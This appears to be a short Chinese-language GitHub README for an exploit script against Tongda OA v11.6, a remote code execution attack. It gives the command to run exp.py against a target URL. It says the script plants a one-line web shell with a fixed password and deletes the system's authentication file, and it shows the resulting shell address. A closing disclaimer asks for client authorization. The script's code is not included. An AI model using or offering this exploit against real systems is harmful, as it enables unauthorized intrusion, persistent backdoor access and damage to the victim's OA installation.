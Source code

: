 # 通达OA v11.6 office anyshare版RCE

## 使用方式

```shell
python exp.py http://127.0.0.1/ p4ssw0rd
```



## 展示

![result](./result.png)



脚本运行后, 一句话地址 http://192.168.199.136/_p4ssw0rd.php

密码 `p4ssw0rd`

![shell](shell.png)



## 警告

该 exp 会删除鉴权文件,未经客户授权不得使用! 本文仅供学习交流,私自利用导致的危害与作者无关!

由于删除了校验权限的文件，登录后变成了如下的样子

![bug](bug.png)